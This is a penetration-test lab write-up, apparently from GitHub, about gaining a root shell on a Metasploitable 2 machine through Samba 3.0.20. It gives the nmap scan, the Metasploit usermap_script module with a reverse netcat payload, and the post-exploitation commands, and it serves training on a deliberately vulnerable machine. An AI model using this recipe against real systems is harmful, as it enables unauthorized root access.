 ## 🛡️ Penetration Test Report — Samba Exploitation (Metasploitable)
📄 Overview
This penetration test was conducted against a target machine running an outdated version of Samba, hosted on the local network. The goal was to identify vulnerabilities, attempt exploitation using Metasploit Framework, and gain shell access.
## 🧠 Target Information
| Item                 | Value            |
| -------------------- | ---------------- |
| **Target IP**        | `192.168.1.184`  |
| **Attacker IP**      | `192.168.1.182`  |
| **Operating System** | Metasploitable 2 |
| **Samba Version**    | `3.0.20-Debian`  |
## 🧪 Enumeration Phase
## 🔍 Service Detection
We scanned the target and discovered an open SMB port.

* nmap -sV -p 139,445 192.168.1.184

Result:
* Samba 3.0.20 was detected on port 139 — known to be vulnerable to multiple exploits.

![Nmap](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(197).png)
## 💥 Exploitation Phase
## ⚙️ Initial Exploit Attempt (Failed)
* Module used:

exploit/linux/samba/trans2open

* Payload:

cmd/unix/reverse_netcat

* Result: ❌

Exploit failed: cmd/unix/reverse_netcat is not a compatible payload.

![Netcat](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(198).png)

## ⚙️ Successful Exploitation 🎯
* Module used:


exploit/multi/samba/usermap_script

* Payload:


cmd/unix/reverse_netcat

Initial LPORT 4444 failed due to port conflict.

![Port4444](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(199).png)

* Changed to:

set LPORT 5555
* Result: ✅

Command shell session 1 opened.

![5555Port](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(200).png)

## 🖥️ Post-Exploitation
## 🔐 Shell Access Verified
* Executed:

whoami
id
uname -a
* Result:

root
uid=0(root) gid=0(root)

Linux metasploitable 2.6.24-16-server

![RootTheKing](file:///C:/Users/moham/OneDrive/Pictures/Screenshots/Screenshot%20(201).png)

## 📝 Conclusion
* ✅ Success: Root shell access was achieved via the usermap_script Samba exploit.
* ❌ Failures: trans2open exploit failed due to incompatible payload or incorrect target match.

## 📎 Notes
* Metasploitable is a known vulnerable machine and used for legal testing.

* Be sure to stop listeners after your session or change ports to avoid conflicts.

* Always validate your target's version and exploit compatibility.

Reported By: M𓄂𓆃M

